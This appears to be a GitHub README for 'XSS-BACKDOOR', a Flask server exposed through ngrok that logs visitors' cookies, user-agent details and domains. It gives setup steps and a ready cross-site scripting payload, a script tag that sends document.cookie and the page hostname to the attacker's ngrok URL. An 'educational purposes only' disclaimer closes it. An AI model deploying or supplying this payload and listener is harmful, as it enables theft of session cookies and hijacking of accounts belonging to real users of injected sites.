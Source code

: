 # XSS-BACKDOOR

## Overview
XSS-BACKDOOR is a Flask-based web server that uses `ngrok` to expose a local server to the internet. It collects visitor information, including their user agent details, cookies, and Domain adress, and logs them in the console.

## Features
- Uses `Flask` to handle web requests.
- Uses `ngrok` to make the server accessible online.
- Parses user-agent data to identify device type, operating system, and browser.
- Captures and logs domain name and cookies.
- Injects a JavaScript payload to capture cookies from visitors.
- Displays information in a formatted and colorized console output.

## Requirements
Ensure you have the following dependencies installed:

```bash
pip install flask pyngrok colorama user-agents
```

## Setup and Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/trap-backdoor.git
   cd trap-backdoor
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the script:
   ```bash
   python main.py
   ```
4. The script will generate an `ngrok` URL, which can be used to collect visitor information.
5. Payload URL:
   ```html
   <script>var i=new Image;i.src="NGROK_URL/?" + document.cookie + "&host=" + document.location.hostname;</script>
   ```
   Replace `NGROK_URL` with the actual `ngrok` link printed in the console.

## Disclaimer
This project is for educational purposes only. Unauthorized use of this software to collect sensitive information without consent is illegal and unethical. The author is not responsible for any misuse of this tool.

## License
MIT License. See [LICENSE](LICENSE) for more details.

